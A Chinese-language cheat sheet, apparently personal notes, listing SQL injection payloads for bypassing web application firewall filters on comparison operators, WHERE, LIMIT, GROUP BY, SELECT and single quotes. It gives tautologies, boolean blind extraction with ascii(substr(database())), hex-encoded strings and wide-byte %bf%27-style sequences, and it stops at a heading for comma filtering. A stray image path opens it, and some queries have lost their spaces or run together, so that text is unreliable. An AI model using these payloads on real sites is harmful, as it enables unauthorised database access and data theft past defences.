 ?id=1' or 1 like 1#可以绕过对 = > 等过滤
or '1' IN ('1234')#可以替代=

## 过滤比较符<>


select*fromuserswhereid=1and ascii(substr(database(),0,1))>64

select*fromuserswhereid=1and greatest(ascii(substr(database(),0,1)),64)=64

## 过滤where

### 逻辑绕过
过滤代码 1 && (select user from users where user_id = 1) = 'admin'
绕过方式 1 && (select user from users limit 1) = 'admin'

## 过滤limit

### 逻辑绕过
过滤代码 1 && (select user from users limit 1) = 'admin'
绕过方式 1 && (select user from users group by user_id having user_id = 1) = 'admin'#user_id聚合中user_id为1的user为admin

## 过滤group by

### 逻辑绕过
过滤代码 1 && (select user from users group by user_id having user_id = 1) = 'admin'
绕过方式 1 && (select substr(group_concat(user_id),1,1) user from users ) = 1

## 过滤select
逻辑绕过
过滤代码 1 && (select substr(group_concat(user_id),1,1) user from users ) = 1
绕过方式 1 && substr(user,1,1) = 'a'

## 过滤'(单引号)

### 逻辑绕过
waf = 'and|or|union|where|limit|group by|select|\''
过滤代码 1 && substr(user,1,1) = 'a'
绕过方式 1 && user_id is not null1 && substr(user,1,1) = 0x611 && substr(user,1,1) = unhex(61)


### 宽字节绕过
%bf%27 %df%27 %aa%27

## 过滤逗号
